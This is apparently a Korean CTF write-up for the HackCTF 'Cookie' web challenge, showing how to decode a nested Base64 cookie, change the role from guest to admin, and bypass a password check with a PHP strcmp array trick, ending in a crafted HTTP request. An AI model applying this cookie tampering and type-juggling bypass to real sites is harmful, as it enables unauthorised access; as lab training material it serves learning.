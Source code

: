 ```yaml
---
title: "HackCTF - WEB - Cookie"
date: 2020-04-05 21:04:76
tags: ["web", "HackCTF", "ctf"]
draft: true
---
```


# HackCTF - WEB - Cookie

일단 문제 사이트에 접근을 합니다.

![image-20191211095951136](image/HackCTF - WEB - Cookie/image-20191211095951136.png)

그러면 이런식으로 쿠키에 무언가가 있다는 것을 암시하는 문구가 나옵니다.

이때 쿠키에 대해 살펴 보면 Cookie 값과 PassAdmin이라는 쿠키가 아래와 같이 보입니다.

![image-20191211100221391](image/HackCTF - WEB - Cookie/image-20191211100221391.png)

![image-20191211100246122](image/HackCTF - WEB - Cookie/image-20191211100246122.png)

이때 Cookie의 값을 보면 Base64의 범위에 속하는 것을 볼 수 있는데 한번 DeCoding을 해봅니다.

![image-20191211100842695](image/HackCTF - WEB - Cookie/image-20191211100842695.png)

한번 Decoding를 했을때 결과 값이 Base64여서 결과 값이 나올때까지 반복하여 DeCoding를 하니 **{"id":"2","type":"guest"}** 값이 나오는데 이때 guest를 admin으로 변경하여 EnCoding를 하여 서버로 전송해봅니다.

![image-20191211102846789](image/HackCTF - WEB - Cookie/image-20191211102846789.png)

패스워드에 대해 틀렸다고 경고를 출력 하는 것을 볼 수 있는데 PassAdmin에 대해서도 우회를 해야 한다는 것을 알 수가 있었습니다.

PHP의 느슨한 비교를 이용하여 공격을 해야 하는 것으로 예상이 됩니다.

PHP의 strcmp(arg1,arg2)함수는 arg1이 더 크면 0보다 큰 값(양수)을 리턴하고 arg2가 더 크면 0보다 작은 값(음수)을 리턴합니다. 그리고 마지막으로 값이 같을때 0을 리턴하게 되는데 이때 **php5.3** 버전에서는 Array타입과 비교를 하면 Null를 리턴을 하게 되는 취약점이 있습니다. 그리고 php의 느슨한 비교를 이용하여 0==null를 비교하게 되면 true를 리턴하게 됩니다. 이제 이점을 이용해서 공격을 해봅니다.

```http
GET / HTTP/1.1
Host: ctf.j0n9hyun.xyz:2027
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.146 Whale/2.6.89.9 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: Hm_lpvt_29884b6641f1b5709cc89a8ce5a99366=1575983513; Hm_lvt_29884b6641f1b5709cc89a8ce5a99366=1575978988; _fbp=fb.1.1575978981442.1558009542; _ga=GA1.2.1648668259.1573465863; _gid=GA1.2.1890637559.1575894614; _hist=TEST%24etc%20passwd; Cookie=WlhsS2NGcERTVFpKYWtscFRFTktNR1ZZUW14SmFtOXBXVmRTZEdGWE5HbG1VVDA5; PassAdmin[]=; PHPSESSID=rmsjabjhdvlhu8cp8bsa995p45; session=.eJwNz7FugzAQANBfqW5mwA7pgNShFSQK1RlR2bHOGwUqsDkiFVUBovx72d_yHlC3PEyQ_tTj3EUwtJAKKV4jmG5T00H6gJdvSKHU16BkdcTMxMTFqDwdFJ9CafOYNIkyC6s7V6uyF4m2Eko6xvNp3C0773pl843kRaA0d9IFl_o9Qc4FekrImtjpJkHf90pfGXVzQI-Lyj6C021w_mtQTCsy7sas5MPR2XxRuyFtFvSqx6wfaDN3tdEbPCP4m7vfqeY9AEXdzd3tc2B4_gM2Xk4a.EM_P2A.Gx4Mr9GrGMSRPs5hUMFmOdKw-Es; wcs_bt=55c48ac9e22bec:1575983512
Connection: close
```

![image-20191211112526165](image/HackCTF - WEB - Cookie/image-20191211112526165.png)
